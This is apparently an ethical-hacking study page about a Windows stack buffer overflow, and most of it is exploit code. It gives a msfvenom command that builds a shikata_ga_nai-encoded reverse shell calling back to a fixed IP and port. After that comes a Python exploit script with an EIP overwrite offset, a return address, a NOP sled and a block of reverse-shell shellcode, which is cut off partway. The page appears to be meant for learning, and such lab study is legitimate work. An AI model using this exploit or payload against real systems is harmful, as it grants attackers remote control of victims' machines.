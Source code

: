 ![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240324182141.png)

#### Creating our shellcode
To try at first in our local machine (par default it will encode it as shikitata_ga_nai):

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.241.170 LPORT=4443 --platform windows -a x86 -b "\x00" -e x86/shikata_ga_nai -f c`

#### Using NOPs:
Necessary to give a "time" to the program to decode our shellcode

`#!/usr/bin/python3`

`import socket`
`import signal`

`def def_handler(sig, frame):`
    `print("\n\n[!] Quitting...\n")`
    `sys.exit(1)`

`# Ctrl+C`
`signal.signal(signal.SIGINT, def_handler)`

`#Global attributes`
`ip_address="127.0.0.1"`
`offset = 1052`
`before_eip = b"A"*offset`
`eip = b"\x17\x91\x61\x6d" #0x6d 61 91 17`
`nops = b"\x90"*16`

`shellcode = (b"\xbd\xf7\x3b\xbe\x13\xda\xd9\xd9\x74\x24\xf4\x58\x29\xc9"`
`b"\xb1\x52\x31\x68\x12\x03\x68\x12\x83\x37\x3f\x5c\xe6\x4b"`
`b"\xa8\x22\x09\xb3\x29\x43\x83\x56\x18\x43\xf7\x13\x0b\x73"`
`b"\x73\x71\xa0\xf8\xd1\x61\x33\x8c\xfd\x86\xf4\x3b\xd8\xa9"`
`b"\x05\x17\x18\xa8\x85\x6a\x4d\x0a\xb7\xa4\x80\x4b\xf0\xd9"`
`b"\x69\x19\xa9\x96\xdc\x8d\xde\xe3\xdc\x26\xac\xe2\x64\xdb"`
`b"\x65\x04\x44\x4a\xfd\x5f\x46\x6d\xd2\xeb\xcf\x75\x37\xd1"`
`b"\x86\x0e\x83\xad\x18\xc6\xdd\x4e\xb6\x27\xd2\xbc\xc6\x60"`
`b"\xd5\x5e\xbd\x98\x25\xe2\xc6\x5f\x57\x38\x42\x7b\xff\xcb"`
`b"\xf4\xa7\x01\x1f\x62\x2c\x0d\xd4\xe0\x6a\x12\xeb\x25\x01"`
`b"\x2e\x60\xc8\xc5\xa6\x32\xef\xc1\xe3\xe1\x8e\x50\x4e\x47"`
`b"\xae\x82\x31\x38\x0a\xc9\xdc\x2d\x27\x90\x88\x82\x0a\x2a"`
`b"\x49\x8d\x1d\x59\x7b\x12\xb6\xf5\x37\xdb\x10\x02\x37\xf6"`
`b"\xe5\x9c\xc6\xf9\x15\xb5\x0c\xad\x45\xad\xa5\xce\x0d\x2d"`
`b"\x49\x1b\x81\x7d\xe5\xf4\x62\x2d\x45\xa5\x0a\x27\x4a\x9a"`
`b"\x2b\x48\x80\xb3\xc6\xb3\x43\x7c\xbe\x4a\x39\x14\xbd\xac"`
`b"\x2f\xbe\x48\x4a\x25\x50\x1d\xc5\xd2\xc9\x04\x9d\x43\x15"`
`b"\x93\xd8\x44\x9d\x10\x1d\x0a\x56\x5c\x0d\xfb\x96\x2b\x6f"`
`b"\xaa\xa9\x81\x07\x30\x3b\x4e\xd7\x3f\x20\xd9\x80\x68\x96"`
`b"\x10\x44\x85\x81\x8a\x7a\x54\x57\xf4\x3e\x83\xa4\xfb\xbf"`
`b"\x46\x90\xdf\xaf\x9e\x19\x64\x9b\x4e\x4c\x32\x75\x29\x26"`